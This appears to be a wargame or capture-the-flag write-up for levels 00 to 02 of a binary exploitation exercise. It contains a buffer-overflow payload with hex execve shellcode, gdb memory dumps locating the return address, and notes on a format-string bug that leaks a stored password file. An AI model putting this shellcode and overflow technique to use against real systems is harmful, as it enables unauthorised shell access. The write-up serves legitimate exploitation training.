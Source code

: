 echo "alias gdb=\"gdb -q -ex 'set disassembly-flavor intel' -ex 'set pagination off'\"" >> .bashrc && . .bashrc

## level00

The input is compared to `5276`, the `system("/bin/sh")` is called if suucessful.

## level01

The program takes two inputs:

* username: `verify_user_name(input, "dat_wil")`
* password: `verify_user_pass(input, "admin")`

The username is a global variable.  
We could overflow the password to modify the return address `EIP`.  
offset: 80  
payload: `python -c 'print("dat_wil\n"+"\x90"*80+"BBBB")'`  
shellcode: `\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`  
find `EIP` address:

```
$ gdb ./level01
(gdb) b *main + 169
(gdb) r < <(python -c 'print("dat_wil\n"+"\x90"*(80-21)+"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"BBBB")')
(gdb) x/32xw $esp
...
0xffffd710:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd720:	0x90909090	0x31909090	0xb0e1f7c9	0x2f68510b
0xffffd730:	0x6868732f	0x6e69622f	0x80cde389	0x42424242
...
```

shellcode address: 0xffffd6e0

final payload:
```
python -c 'print("dat_wil\n"+"\x90"*(80-21)+"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"\xe0\xd6\xff\xff")'
```

```
python -c 'print("dat_wil\n"+"\x90"*(80-70)+"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"+"\x90"*20+"\x2c\xde\xff\xff")' | env - ./level01
```
## level02

The content of `/home/users/level03/.pass` is stored in `rbp-0xa0`.  
username is stored in `rbp-0x70`
password is stored in `rbp-0x110`
`username` is passed to `printf` as a first argument without providing a format string.
